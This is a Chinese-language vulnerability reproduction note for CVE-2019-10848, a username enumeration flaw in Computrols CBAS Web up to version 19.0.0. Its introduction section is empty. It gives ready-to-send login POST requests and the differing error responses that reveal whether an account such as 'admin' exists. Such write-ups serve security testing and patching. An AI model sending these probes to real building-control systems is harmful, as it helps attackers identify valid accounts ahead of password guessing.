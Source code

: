```yaml
---
title: （CVE-2019-10848）Computrols CBAS Web 用户名枚举
id: zhfly2852
---
```


# （CVE-2019-10848）Computrols CBAS Web 用户名枚举

## 一、漏洞简介

## 二、漏洞影响

19.0.0及以下

## 三、复现过程

### 测试无效用户：

```
POST /cbas/index.php?m=auth&a=login HTTP/1.1 `username=randomuser&password=&challenge=60753c1b5e449de80e21472b5911594d&response=e16371917371b8b70529737813840c62` 
```

Response

```
<!-- Failed login comments appear here -->
<p class="alert-error">randomuser</p> 
```

### 测试有效用户：

```
POST /cbas/index.php?m=auth&a=login HTTP/1.1 `username=admin&password=&challenge=6e4344e7ac62520dba82d7f20ccbd422&response=e09aab669572a8e4576206d5c14befc5s` 
```

Response

```
<!-- Failed login comments appear here -->
<p class="alert-error">Invalid username/password combination.  Please try again!</p> 
```